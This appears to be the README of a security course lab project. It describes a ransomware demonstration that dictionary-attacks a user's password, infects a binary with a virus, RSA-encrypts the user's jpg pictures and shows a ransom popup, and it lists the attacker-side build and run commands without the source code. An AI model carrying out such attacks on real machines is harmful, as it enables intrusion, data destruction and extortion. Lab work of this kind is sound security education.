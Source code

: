 # Ransomware Propagation and Payload

## Description
- Crack the victim's password by launching a dictionary attack (assume that the username is known as **csc2023**)
- Infect the file **/home/csc2023/cat** by embedding the compression virus
- Encrypt all picture files in **jpg** in **/home/csc2023/Pictures** via RSA
- Pop up a window showing a message requesting ransom

## Usage 
### Build
Perpare two machines, attacker and victim, and run the command in the attacker machine.
```bash
$ make
```
Prepare a file named **victim.dat** in the attacker machine that includes any combinations of characters which can be used as a password and place in **/home/csc2023/materials/**. Meanwhile, move the **materials** directory to **/home/csc2023/** in the victim machine.

### Ransomware Progration and Payload
Set up the attacker machine via the command in the attacker machine.
```bash
$ ./attacker_server <Attacker port>
```
Run the command in the attacker machine to crack the victim's password and infect the file **/home/csc2023/cat**.
```bash
$ ./crack_attack <Victim IP> <Attacker IP> <Attacker Port>
```
Run **/home/csc2023/cat** file in the victim machine and the result is shown below.
![error message](./figures/result.gif)

### Decryption
Decrypt all picture files in **jpg** in **/home/csc2023/Pictures** in the victim machine.
```bash
$ ./decrypt.sh
```